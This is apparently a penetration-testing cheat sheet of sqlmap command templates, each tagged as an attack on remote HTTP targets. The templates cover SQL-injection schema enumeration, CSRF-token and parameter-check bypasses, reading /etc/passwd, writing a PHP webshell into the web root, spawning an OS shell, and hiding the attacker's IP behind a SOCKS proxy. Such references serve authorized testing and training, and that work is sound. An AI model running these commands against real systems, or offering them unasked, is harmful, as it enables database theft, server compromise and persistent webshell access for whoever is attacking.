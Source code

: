 ## SQLi - sqlmap schema enum
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --schema
```

## SQLi - sqlmap anti-csrf token bypass
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --data="<key=value&csrf-token=value>" --csrf-token="<csrf-token>"
```

## SQLi - sqlmap reading files
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --file-read "</etc/passwd>"
```

## SQLi - sqlmap write files
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --file-write "<file2write>" --file-dest "</var/www/html/shell.php>"
```

## SQLi - sqlmap spawn shell
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --os-shell
```

## SQLi - sqlmap random value bypass
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL/?id=1&rp=29125>" --randomize=<value> --batch -v 5 | grep URI
```

## SQLi - sqlmap calculated parameter bypass
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL/?id=1&h=c4ca4238a0b923820dcc509a6f75849b>" --eval="<import hashlib; h=hashlib.md5(id).hexdigest()>" --batch -v 5 | grep URI
```

## SQLi - sqlmap ip concealing
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap <targetURL> --proxy="<socks4://177.39.187.70:33283>”
```
